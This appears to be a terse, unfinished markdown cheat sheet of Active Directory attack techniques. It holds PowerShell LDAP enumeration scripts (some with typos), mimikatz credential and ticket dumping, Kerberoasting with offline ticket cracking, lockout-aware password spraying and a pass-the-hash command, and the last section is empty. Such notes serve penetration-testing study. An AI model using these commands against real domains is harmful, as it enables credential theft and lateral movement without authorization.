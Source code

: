# Active Directory

## Enumeration

### Built-in

* `net user`
* `net user /domain`
* `net user username /domain` (shows group membership)
* `net group /domain` (look for custom groups)

### TBD

```
$domainObj = [System.DirectoryServices.ActiveDirectory.Domain]::GetCurrentDomain()
$PDC = ($domainObj.PdcRoleOwner).Name
$DistinguishedName = "DC=$($domainObj.Name.Replace('.', ',DC='))"
$SearchString = "LDAP://" + $PDC + "/" + $DistinguishedName

$Searcher = New-Object System.DirectoryServices.DirectorySearcher([ADSI]$SearchString)
$objDomain = New-Object System.DirectoryServices.DirectoryEntry
$Searcher.SearchRoot = $objDomain
```

```
$Searcher.filter = "samAccountType=805306368"
' $Searcher.filter = "name=username"

$Result = $Searcher.FindAll()
Foreach($obj in $Result)
{
  ForEach($prop in $obj.Properties)
  {
    $prop
  }
  
  Write-Host "--------------------"
}
```

```
@Searcher.filter = "(objectGlaass=Group)"

$Result = $Searcher.FindAll()
Foreach($obj in $Result)
{
  $obj.Properties.name
}
```


```
@Searcher.filter = "(name=Some_Group)"

$Result = $Searcher.FindAll()
Foreach($obj in $Result)
{
  $obj.Properties.member
}
```
 
### TBD

`Import-Module .\PowerView.ps1`
* `Get-NewLoggedon -ComputerName computer123`
* `Get-NetSession -ComputerName domainController123`

### TBD

```
@Searcher.filter = "serviceprincipalname=*http*"

$Result = $Searcher.FindAll()
Foreach($obj in $Result)
{
  ForEach($prop in $obj.Properties)
  {
    $prop
  }
}
```
^^ of particular interest are `samaccountname` and `serviceprincipalname`

follow on (from target host):
```
nslookup website.domain.name
```

### TBD

```
mimikatz.exe
privilege::debug
sekurlsa::logonpasswords   # NTLM, SHA1 are needed for pre Windows 2003
sekurlsa::tickets
```

### TBD

```
(PS) Add-Type -AssemblyName System.IdentityModel
(PS) New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList '<SPN name>' # create SPN ticket
(PS) klist
```
```
mimikatz.exe
kerberos::list /export # download SPN ticket
```
(transfer .kerbi file to kali for use with kerberoast apt package)
```
python /usr/share/kerberoast/tgsrepcrack.py wordlist.txt <path_to_kirbi_file>
```

### Low & Slow Password Guessing

* `net accounts # see lockout threshold + lockout observation window (which gives one free login attempt)`
* `(PS) .\Spray-Passwords.ps1 -Pass <password> -Admin` (see https://github.com/ZilentJack/Spray-Passwords/blob/master/Spray-Passwords.ps1)

### Pass The Hash

* `pth-winexe -U <NTLM_hash> //hostip <cmd>` (see https://github.com/byt3bl33d3r/pth-toolkit)

### Overpass the hash

* 
